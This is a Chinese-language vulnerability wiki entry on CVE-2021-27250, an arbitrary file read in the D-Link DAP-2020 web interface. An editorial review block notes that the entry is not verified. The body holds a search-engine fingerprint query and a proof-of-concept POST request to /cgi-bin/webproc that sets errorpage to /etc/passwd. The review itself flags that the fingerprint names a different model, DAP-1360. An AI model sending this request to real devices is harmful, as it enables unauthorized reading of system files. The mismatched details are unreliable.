


# D-Link DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DAP-2020
- 本文讨论：CVE-2021-27250
- 版本、权限与配置前提：硬件A1/固件1.01测试；错误登录errorpage读取，凭据有效性未说明
- 资料类型：短PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 产品DAP2020却测绘DAP1360/6.05，明显实体不匹配
- 公告[1]无对应链接；影响节漏测试版本
- 其他版本可能影响只是推测；无HTTP头/成功响应文本

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 跨型号关系、凭据前提和固件范围待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

近日D-Link发布公告[1]称旗下产品DAP-2020存在任意文件读取漏洞，CVE编号为CVE-2021-27250，目前已在硬件版本：A1，固件版本：1.01 上测试了PoC，由于漏洞影响核心组件，因此其他版本也可能受到此漏洞的影响

## 漏洞影响

```
D-LINK DAP-2020
```

## 网络测绘

```
body="DAP-1360" && body="6.05"
```

## 漏洞复现

登录页面




验证POC

```
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
